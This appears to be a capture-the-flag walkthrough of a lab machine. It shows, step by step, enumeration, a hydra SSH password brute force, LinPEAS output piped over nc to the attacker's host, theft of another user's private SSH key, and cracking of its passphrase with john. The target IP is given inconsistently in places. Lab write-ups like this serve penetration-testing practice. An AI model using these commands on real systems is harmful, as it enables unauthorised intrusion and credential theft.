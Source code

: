 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

Title: `Web App Test`

Target IP: `10.10.0.193`

Host IP: `10.10.14.20`

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

> - `22/tcp` OpenSSH
> - `80/tcp` Apache
> - `138/tcp` Samba
> - `445/tcp` Samba
> - `8009/tcp` Apache
> - `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> `<!-- Check our dev note section if you need to know what to work on. -->`

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> `/development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]`

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> `href="dev.txt"`

> `href="j.txt"`

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> `S-1-22-1-1000 Unix User\kay (Local User)`

> `S-1-22-1-1001 Unix User\jan (Local User)`

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> [22][ssh] host: 10.10.0.193   login: jan   password: armando

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> `══╣ Possible private SSH keys were found!`
> `/home/kay/.ssh/id_rsa`

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `beeswax (kay_id_rsa)`

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```
